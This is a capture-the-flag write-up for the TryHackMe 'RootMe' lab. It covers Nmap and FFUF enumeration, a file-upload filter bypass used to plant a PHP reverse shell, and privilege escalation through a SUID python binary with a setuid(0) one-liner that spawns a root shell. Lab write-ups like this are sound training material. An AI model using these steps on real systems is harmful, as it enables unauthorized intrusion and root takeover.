



# RootMe

*RootMe* is an easy TryHackMe machine that guides you through the process of gaining root access.

---

## Enumeration

Initial service enumeration was performed using **Nmap**, revealing the following:

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.15
OS details: Linux 4.15
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Since a web service is available, I used **FFUF** for content discovery, which revealed the following directories:

```
uploads
css    
js     
panel  
```

---

## Reverse Shell

In the `panel` directory, there is a file upload functionality. I used it to upload a reverse shell.

I utilized this [PHP reverse shell](scripts/php_shell.php) to gain access. However, to bypass the file upload restrictions, I intercepted the request using **BurpSuite** and changed the filename, as shown in the image below:

<p align="center">
  
</p>

To activate the reverse shell, I navigated to the `uploads` directory and accessed the uploaded shell file.

Once I had access, I found the `user.txt` flag as shown here:

<p align="center">
  
</p>

---

## Privilege Escalation

To escalate privileges, I searched for binaries with the SUID bit set and owned by root using the following command:

```
find / -user root -perm /4000
```

The command returned the following results:

<p align="center">
  
</p>

Of particular interest is `/usr/bin/python`, which can be exploited to spawn a root shell with the following command:

```
/usr/bin/python -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

Here's proof of root access:

<p align="center">
  
</p>